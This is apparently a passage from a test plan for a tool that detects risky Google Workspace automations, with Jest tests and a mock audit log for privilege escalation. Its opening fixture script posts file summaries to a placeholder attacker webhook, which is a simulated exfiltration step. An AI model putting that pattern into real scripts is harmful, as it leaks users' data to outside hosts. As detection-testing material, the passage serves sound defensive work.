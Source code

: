 ```javascript
    });
  }

  // Send to external webhook
  UrlFetchApp.fetch('https://attacker-webhook.example.com/data', {
    method: 'post',
    payload: JSON.stringify(summaries)
  });
}
```

**Expected Detection**:
- ✅ Off-Hours Detector triggers (Sunday 2 AM outside business hours)
- ✅ Data Volume Detector triggers (accessing multiple files)
- ✅ Risk Score: 90+ (Critical - off-hours data access + external webhook)

**Validation**:
```typescript
it('should detect off-hours automation activity', async () => {
  // Mock current time as Sunday 2 AM
  jest.useFakeTimers().setSystemTime(new Date('2025-10-26T02:00:00Z')); // Sunday

  await runAppsScript('off-hours-bot', 'weekendDataExfiltration');
  await discoveryService.runDiscovery({ ... });

  const automations = await discoveryService.getAutomations({ ... });
  const offHoursDetection = automations.find(a =>
    a.detectionMetadata?.detectionPatterns?.some(p => p.type === 'off_hours')
  );

  expect(offHoursDetection).toBeDefined();
  expect(offHoursDetection.riskScore).toBeGreaterThan(85);
  expect(offHoursDetection.riskLevel).toBe('critical');

  jest.useRealTimers();
});
```

---

## Scenario 5: Permission Escalation - Service Account Privilege Creep

**Automation**: Service account that grants itself additional scopes

**Detection via Audit Logs**:
```typescript
// This is detected via Google Workspace audit logs, not Apps Script
// Simulate by manually granting service account additional permissions

// Expected audit log entry:
{
  "events": [{
    "type": "acl_change",
    "name": "change_acl_editors",
    "parameters": [
      { "name": "owner", "value": "service-account@project.iam.gserviceaccount.com" },
      { "name": "target_user", "value": "service-account@project.iam.gserviceaccount.com" },
      { "name": "new_role", "value": "editor" }
    ]
  }]
}
```
